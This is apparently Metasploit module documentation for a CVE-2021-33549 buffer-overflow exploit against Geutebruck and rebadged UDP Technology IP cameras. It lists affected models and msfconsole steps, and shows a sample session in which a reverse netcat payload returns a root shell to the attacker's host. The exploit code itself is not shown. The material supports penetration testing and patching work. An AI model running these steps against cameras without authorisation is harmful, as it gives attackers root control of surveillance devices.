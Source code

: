 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module exploits a buffer overflow (CVE-2021-33549) within the `action` GET parameter of /uapi-cgi/instantrec.cgi.
Successful exploitation will result in remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_instantrec_bof`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf > use exploit/linux/http/geutebruck_instantrec_bof
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf exploit(linux/http/geutebruck_instantrec_bof) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf exploit(linux/http/geutebruck_instantrec_bof) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf exploit(linux/http/geutebruck_instantrec_bof) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
